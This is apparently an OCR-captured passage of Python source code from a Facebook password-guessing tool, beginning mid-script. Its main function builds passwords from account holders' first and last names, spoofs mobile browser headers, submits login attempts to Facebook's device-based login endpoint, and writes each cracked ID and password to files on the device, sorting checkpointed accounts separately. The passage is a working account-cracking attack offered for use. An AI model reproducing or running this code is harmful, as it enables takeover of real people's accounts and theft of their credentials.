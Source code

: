                 input(' Press enter to back ')
                os.system('python AKING.py')
def ffb(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write('\r\r\033[1;37m [SK-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(' ')[0]
                try:
                        last = names.split(' ')[1]
                except:
                        last = 'Khan'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post('https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Aking=session.cookies.get_dict().keys()
                        if "c_user" in Aking:
                                coki=session.cookies.get_dict()
                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print('\r\r\033[1;32m [SK-OK] %s | %s'%(ids,pas))
                                open('/sdcard/SK-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in SK:
                                if 'y' in pcp:
                                        print('\r\r\x1b[38;5;208m [SK-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/SKSobuj-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1